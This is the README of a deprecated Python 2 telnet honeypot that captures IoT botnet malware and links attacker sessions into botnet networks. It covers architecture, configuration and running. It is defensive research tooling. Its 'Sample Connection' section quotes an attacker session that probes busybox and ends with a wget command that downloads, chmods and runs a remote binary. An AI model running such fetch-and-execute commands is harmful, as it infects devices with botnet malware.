



## Disclaimer

This project neither supported or in development anymore. It is based on python2 which has reached its EOL in 2020 and uses dependencies which are getting harder to install over time. Use at your own risk! 

# Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

This project contains an own honeypot, however because of the client-server architecture,
other honeypot can be used as well.

### Using the built-in honeypot

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

### Using cowrie

I wrote an output plugin for cowrie, which has much more features than the built in honeypot.
If you want to use cowrie instead, checkout my fork which includes the output module here:
https://github.com/Phype/cowrie .

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

